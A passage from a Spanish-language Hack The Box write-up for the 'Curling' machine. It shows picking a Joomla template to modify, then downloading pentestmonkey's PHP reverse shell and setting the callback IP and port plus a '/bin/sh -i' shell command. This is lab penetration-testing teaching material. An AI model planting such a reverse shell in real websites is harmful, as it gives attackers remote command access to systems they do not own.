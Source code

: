 Seleccionamos de la tabla que nos parace aquel que no está asginado (**Beez3 - Default**) en el campo de **Template**:

![""](/assets/images/htb-curling/curling-web6.png)

Antes de generar un archivo, vamos a descargarnos una reverse shell de [pentestmonkey](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)

```bash
❯ mv /home/k4miyo/Descargas/Firefox/php-reverse-shell-1.0.tar.gz .
❯ ll
.rw-r--r-- root   root    22 B  Fri Mar 18 14:36:07 2022  credentials.txt
.rw-r--r-- k4miyo k4miyo 8.8 KB Fri Mar 18 14:49:25 2022  php-reverse-shell-1.0.tar.gz
❯ tar -xf php-reverse-shell-1.0.tar.gz
❯ ll
drwx------ k4miyo 1004   132 B  Sat May 26 11:50:01 2007  php-reverse-shell-1.0
.rw-r--r-- root   root    22 B  Fri Mar 18 14:36:07 2022  credentials.txt
.rw-r--r-- k4miyo k4miyo 8.8 KB Fri Mar 18 14:49:25 2022  php-reverse-shell-1.0.tar.gz
❯ cd php-reverse-shell-1.0
❯ ll
.rw------- k4miyo 1004  62 B  Sat May 26 11:50:01 2007  CHANGELOG
.rw------- k4miyo 1004  18 KB Sat May 26 11:50:01 2007  COPYING.GPL
.rw------- k4miyo 1004 308 B  Sat May 26 11:50:01 2007  COPYING.PHP-REVERSE-SHELL
.rwx------ k4miyo 1004 5.4 KB Sat May 26 11:50:01 2007  php-reverse-shell.php
```

Editamos el archivo `php-reverse-shell.php` modificando los valores que nos indica.

```bash
  47   │ set_time_limit (0);
  48   │ $VERSION = "1.0";
  49   │ $ip = '10.10.14.27';  // CHANGE THIS
  50   │ $port = 443;       // CHANGE THIS
  51   │ $chunk_size = 1400;
  52   │ $write_a = null;
  53   │ $error_a = null;
  54   │ $shell = 'uname -a; w; id; /bin/sh -i';
  55   │ $daemon = 0;
  56   │ $debug = 0;

```
